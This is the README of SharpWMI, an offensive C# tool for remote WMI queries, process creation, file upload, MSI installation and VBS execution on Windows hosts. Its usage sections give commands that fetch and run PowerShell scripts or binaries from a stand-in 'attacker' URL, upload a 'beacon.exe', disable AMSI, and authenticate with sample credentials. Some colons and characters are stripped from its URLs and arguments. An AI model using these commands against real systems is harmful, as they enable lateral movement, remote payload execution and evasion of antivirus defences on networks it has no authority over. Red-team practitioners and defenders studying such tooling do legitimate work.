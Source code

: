 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods.

[@harmj0y](https/twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
 Local system enumeration:
 SharpWMI.exe action=query query=""select * from win32_service"" [namespace=BLAH]

 Remote system enumeration:
 SharpWMI.exe action=query [computername=HOST1[,HOST2,...]] query=""select * from win32_service"" [namespace=BLAH]

 Remote system Logged On users enumeration:
 SharpWMI.exe action=loggedon [computername=HOST1[,HOST2,...]]

 Remote process creation:
 SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]

 Remote VBS execution:
 SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

 File upload via WMI:
 SharpWMI.exe action=upload [computername=HOST[,HOST2,...]] source=""C:\\source\\file.exe"" dest=""C:\\temp\\dest-file.exe"" [amsi=disable]

 Remote firewall enumeration :
 SharpWMI.exe action=firewall computername=HOST1[,HOST2,...]

 List processes:
 SharpWMI.exe actions [computername=HOST[,HOST2,...]]

 Terminate process (first found):
 SharpWMI.exe action=terminate processID|name [computername=HOST[,HOST2,...]]

 Get environment variables (all if name not given):
 SharpWMI.exe action=getenv [name=VariableName] [computername=HOST[,HOST2,...]]

 Set environment variable:
 SharpWMI.exe action=setenv name=VariableName value=VariableValue [computername=HOST[,HOST2,...]]

 Delete an environment variable:
 SharpWMI.exe action=delenv name=VariableName [computername=HOST[,HOST2,...]]

 Install MSI file:
 SharpWMI.exe action=install [computername=HOST[,HOST2,...]] path=""C:\\temp\\installer.msi"" [amsi=disable]

NOTE:
 - Any remote function also takes an optional ""usernameOMAIN\\user"" ""passwordassword123!"".
 - If computername is not specified, will target localhost.
```

The `result=true` option on `action=exec` (alternatively `action=create`) makes SharpWMI to return command's output after remote WMI process creation. It works by storing command's output in an instance of arbitrary WMI object. That object would then be fetched by callee and restored to it's original value.


### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
 A) Executes OS command via preset VBS code:
 SharpWMI.exe action=executevbs [...] command="notepad.exe"

 B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
 SharpWMI.exe action=executevbs [...] url="http/attacker/myscript.ps1"

 C) Download a binary file from given URL, store it in specified path and then execute it:
 url="SOURCE_URL,TARGET_PATH"
 SharpWMI.exe action=executevbs [...] url="http/attacker/foo.png,%TEMP%\bar.exe"

 D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
 url="SOURCE_URL,TARGET_PATH"
 SharpWMI.exe action=executevbs [...] url="http/attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

 E) Read VBS script from file and execute it:
 SharpWMI.exe action=executevbs [...] script="myscript.vbs"

 F) Execute given VBS script given literally:
 SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

 G) Base64 decode input string being encoded VBS script and execute it on remote machine:
 SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

 H) Read contents of given file, base64 decode them and then execute on target machine:
 SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

 Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
 SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
 SharpWMI.exe action=query query=""select * from win32_process""

 SharpWMI.exe action=query query=""SELECT * FROM AntiVirusProduct"" namespace=""root\\SecurityCenter2""

 SharpWMI.exe action=loggedon computernamerimary.testlab.local

 SharpWMI.exe action=query computernamerimary.testlab.local query=""select * from win32_service""

 SharpWMI.exe action=query computernamerimary,secondary query=""select * from win32_process""

 SharpWMI.exe action=exec computernamerimary.testlab.local command=""powershell.exe -enc ZQBj...""

 SharpWMI.exe action=exec computernamerimary.testlab.local command=""whoami"" result=true amsi=disable

 SharpWMI.exe action=executevbs computernamerimary.testlab.local command=""notepad.exe"" eventname=""MyLittleEvent"" amsi=disable

 SharpWMI.exe action=executevbs computernamerimary.testlab.local username=""TESTLAB\\harmj0y"" password=""Password123!""

 SharpWMI.exe action=upload computernamerimary.testlab.local source=""beacon.exe"" dest=""C:\\Windows\\temp\\foo.exe"" amsi=disable

 SharpWMI.exe action=terminate computernamerimary.testlab.local process=explorer

 SharpWMI.exe action=getenv nameATH computernamerimary.testlab.local

 SharpWMI.exe action=setenv name=FOO value=""BAR"" computernamerimary.testlab.local

 SharpWMI.exe action=delenv name=FOO computernamerimary.testlab.local

 SharpWMI.exe action=install computernamerimary.testlab.local path=""C:\\temp\\installer.msi""
```

Get local TCP netstat-style information from a remote Windows 10 machine:

 SharpWMI.exe action=query computername=COMPUTER query="Select LocalPort,OwningProcess from MSFT_NetTCPConnection" namespace="ROOT\StandardCIMV2"


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https/go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution |Author |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https/github.com/harmj0y) |
|WMI code-exec output idea |[Evi1cg @Ridter](https/github.com/Ridter) |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https/github.com/0xthirteen) |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https/github.com/mgeeky) |
|Install MSI files |[Justin Bui @slyd0g](https/github.com/slyd0g) |